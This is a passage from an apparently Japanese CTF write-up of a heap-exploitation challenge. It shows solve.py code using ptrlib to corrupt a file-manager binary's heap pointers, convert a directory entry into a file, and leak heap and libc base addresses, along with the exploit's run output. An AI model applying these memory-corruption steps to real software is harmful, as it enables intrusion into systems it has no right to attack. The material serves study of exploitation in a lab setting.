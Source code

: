 ```
change_directory("victim")
print(list_dir())
change_directory("..")
```

上手いこと動いています。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=22361)
[b'killer', b'128', b'162', b'189', b'202', b'78', b'86']
[ptrlib] heap addr = 0x564ecabda280
[b'killer', b'nihao', b'162', b'189', b'202', b'78', b'86']
[ptrlib]$ 
--------------------
current dir: root
--------------------
```

ここでbigをfreeすればmain arenaへのリンクが書き込まれるので、show fileでvictimの内容(=big->ptr)を見るだけでlibcのアドレスがリークできます。
```python
# Change victim->ptr to big->ptr
lsb = addr_heap & 0xff
change_directory("victim")
remove_file(str(lsb))
change_directory("..")
change_directory("dir3")
add_file("consume", 0x50, "Hello")
change_directory("..")
change_directory(which_dir(boundary, (lsb + 0x70) & 0xff))
remove_file(str((lsb + 0x70) & 0xff))
change_directory("..")
change_directory("victim")
add_file("nihao", 0x50, "Hello")
change_directory("..")

# Change dir:victim to file:victim
remove_file("killer")
add_file("killer", 0x50, b'A' * 0x50 + b'\x02' + b'victim')

# Leak libc base
remove_file("big")
libc_base = u64(show_file("victim")) - main_arena - delta
dump("libc base = " + hex(libc_base))

sock.interactive()
```

ええやん。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=23152)
[b'killer', b'128', b'210', b'180', b'87', b'26', b'86']
[ptrlib] heap addr = 0x561a57b4d280
[ptrlib] libc base = 0x7fad6013a000
[ptrlib]$
```
